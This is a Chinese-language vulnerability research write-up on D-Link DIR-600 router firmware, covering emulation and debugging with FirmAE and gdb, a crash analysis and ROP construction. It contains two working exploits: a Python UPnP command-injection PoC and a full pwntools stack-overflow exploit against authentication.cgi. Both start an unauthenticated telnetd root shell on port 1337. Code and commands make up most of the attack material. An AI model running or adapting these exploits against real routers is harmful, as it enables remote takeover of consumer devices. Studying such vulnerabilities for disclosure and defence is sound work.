








# dlink-600 漏洞分析

[https://wzt.ac.cn/2021/09/17/mipsrop/](https://wzt.ac.cn/2021/09/17/mipsrop/ "https://wzt.ac.cn/2021/09/17/mipsrop/")


固件  \_DIR-600\_Bx\_FW218WWb01

下载[https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-600](https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-600 "https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-600")

## 旧的漏洞

在cgibin文件中包含命令注入，这是一个upnp服务的模块，实际上断点并没有在这块代码断下来，可能和多进程有关



发送upnp报文，命令确实被注入了


poc

[https://github.com/naihsin/IoT/commit/76298e9c5d47fbc7f296447eeb014a6306b1f0c6](https://github.com/naihsin/IoT/commit/76298e9c5d47fbc7f296447eeb014a6306b1f0c6 "https://github.com/naihsin/IoT/commit/76298e9c5d47fbc7f296447eeb014a6306b1f0c6")

```javascript
#!/usr/bin/python3
import sys
import os
import socket
from time import sleep

def config_payload(ip, port):
    header = b"M-SEARCH * HTTP/1.1\n"
    header += b"HOST:"+str(ip).encode(encoding='utf-8')+b":"+str(port).encode(encoding='utf-8')+b"\n"
    header += b"ST:urn:service:;telnetd -l /bin/sh -p 1337\n"
    header += b"MX:2\n"
    header += b'MAN:"ssdp:discover"'+b"\n\n"
    return header
def send_conexion(ip, port, payload):
    sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM,socket.IPPROTO_UDP)
    sock.setsockopt(socket.IPPROTO_IP,socket.IP_MULTICAST_TTL,2)
    sock.sendto(payload,(ip, port))
    sock.close()
if __name__== "__main__":
    ip = input("Router IP: ")
    port = 1900
    headers = config_payload(ip, port)
    send_conexion(ip, port, headers)
```


新漏洞的发现  &#x20;



找到了这里



获取到的password和id产生了栈溢出

## 调试

FirmAE可以进行仿真

[https://github.com/pr0v3rbs/FirmAE](https://github.com/pr0v3rbs/FirmAE "https://github.com/pr0v3rbs/FirmAE")

```javascript
sudo ./run.sh -d dlink ../../aiwencode/test/DIR-600_Bx_FW218WWb01.bin
```

用gdbserver调试httpd进程

\~/.gdbinit文件

```javascript
source /home/tower/tools/gef/gef.py
set architecture mips

#set sysroot  ~/aiwencode/test/_DIR-600_Bx_FW218WWb01.bin.extracted/squashfs-root
set follow-fork-mode child
handle SIG32 pass

handle SIG33 pass
handle SIG43 pass

target remote 192.168.0.1:233
```


发送报文

```javascript
GET /authentication.cgi?id=aaaaaaaa&password=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabb HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=azLcAdaeXk
Connection: close

```

捕获到崩溃，可以影响s寄存器和栈空间



栈上有执行权限



查看aslr保护为1，即只有堆和代码段没有开启随机化

```javascript
/firmadyne # cat /proc/sys/kernel/randomize_va_space
1
```

## 漏洞分析

在拷贝id和password字段时造成了缓冲区溢出，由于strcpy函数遇到0x00会截断，只能通过使用id覆盖返回地址，再使用password设置要影响的寄存器。rop的利用收到了很大的限制。



## 构造rop

栈溢出可以影响几个s寄存器和栈，经过几番波折在cgibin文件内找到了下面的一段代码



执行system(\$s0)刚好可以满足需求。

需要给\$s0一个命令的地址。发送的请求数据会存放在堆内，而堆空间的地址是不变的。

通过find命令找到堆上存放用户输入字符串的地址，在实际操作时find没有搜到全部的tel字符串，幸运的是它们存放在一起，最终在内存中找到了一块完整命令的一块内存。




由于程序对输入的”\x20“进行了转义，这里使用\${IFS}表示空格

## 完整exp

```javascript
import requests
from pwn import *
context.log_level='debug'
def write2stack(payload,id):
    headers={
    "User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.87 Safari/537.36",
    }
 
    url = 'http://192.168.0.1/authentication.cgi'
    params = {"id": id,"password":payload}
    response = requests.get(url=url, params=params, headers=headers).text
    print(response)

"""
.text:00413F1C                 lw      $gp, 0x420+var_410($sp)
.text:00413F20                 nop
.text:00413F24                 la      $t9, system
.text:00413F28                 nop
.text:00413F2C                 jalr    $t9 ; system
.text:00413F30                 move    $a0, $s0         # command
.text:00413F34                 lw      $ra, 0x420+var_s4($sp)
.text:00413F38                 lw      $gp, 0x420+var_410($sp)
.text:00413F3C                 lw      $s0, 0x420+var_s0($sp)
.text:00413F40                 jr      $ra
.text:00413F44                 addiu   $sp, 0x428
"""

payload=cyclic(1052,n=4)#+b'\x0a'
payload+=p32(0x413f24) #ret1
payload+=p32(0x22222222)
id=b"a"*1024+payload
password=b"telnetd${IFS}-l${IFS}/bin/sh${IFS}-p${IFS}1337;".ljust(1024,b' ')+p64(0x43a190)#s0   0x439920
write2stack(password,id)
```

